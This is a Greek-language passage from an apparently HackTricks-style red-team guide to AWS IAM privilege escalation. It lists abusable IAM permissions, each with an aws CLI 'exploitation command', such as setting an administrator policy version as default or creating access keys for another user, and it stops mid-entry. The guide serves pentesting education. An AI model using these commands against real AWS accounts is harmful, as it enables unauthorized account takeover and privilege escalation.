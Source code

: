 # AWS - Εscalation προνομίων IAM

<details><summary><strong>Μάθετε το χάκινγκ στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>

## IAM

Για περισσότερες πληροφορίες σχετικά με το IAM ελέγξτε:

{% content-ref url="../aws-services/aws-iam-enum.md" %}
[aws-iam-enum.md](../aws-services/aws-iam-enum.md)
{% endcontent-ref %}

### **`iam:CreatePolicyVersion`**

Χορηγεί τη δυνατότητα δημιουργίας μιας νέας έκδοσης πολιτικής IAM, παρακάμπτοντας την ανάγκη για άδεια `iam:SetDefaultPolicyVersion` χρησιμοποιώντας τη σημαία `--set-as-default`. Αυτό επιτρέπει τον καθορισμό προσαρμοσμένων δικαιωμάτων.

**Εντολή Εκμετάλλευσης:**
```bash
aws iam create-policy-version --policy-arn <target_policy_arn> \
--policy-document file:///path/to/administrator/policy.json --set-as-default
```
**Επίδραση:** Ανεβάζει απευθείας τα προνόμια επιτρέποντας οποιαδήποτε ενέργεια σε οποιοδήποτε πόρο.

### **`iam:SetDefaultPolicyVersion`**

Επιτρέπει την αλλαγή της προεπιλεγμένης έκδοσης μιας πολιτικής IAM σε μια άλλη υπάρχουσα έκδοση, πιθανώς ανεβάζοντας τα προνόμια εάν η νέα έκδοση έχει περισσότερες άδειες.

**Εντολή Bash:**
```bash
aws iam set-default-policy-version --policy-arn <target_policy_arn> --version-id v2
```
**Επίπτωση:** Έμμεση ανόδος προνομίων με την ενεργοποίηση περισσότερων δικαιωμάτων.

### **`iam:CreateAccessKey`**

Επιτρέπει τη δημιουργία ταυτότητας πρόσβασης και μυστικού κλειδιού πρόσβασης για έναν άλλο χρήστη, οδηγώντας σε πιθανή ανόδο προνομίων.

**Εκμετάλλευση:**
```bash
aws iam create-access-key --user-name <target_user>
```
**Επίπτωση:** Άμεση επέκταση προνομίων με την υπόθεση των επεκταμένων δικαιωμάτων ενός άλλου χρήστη.

### **`iam:CreateLoginProfile` | `iam:UpdateLoginProfile`**

Επιτρέπει τη δημιουργία ή ενημέρωση ενός προφίλ σύνδεσης, συμπεριλαμβανομένης της ρύθμισης κωδικών πρόσβασης για τη σύνδεση στον πίνακα ελέγχου του AWS, οδηγώντας σε άμεση επέκταση προνομίων.
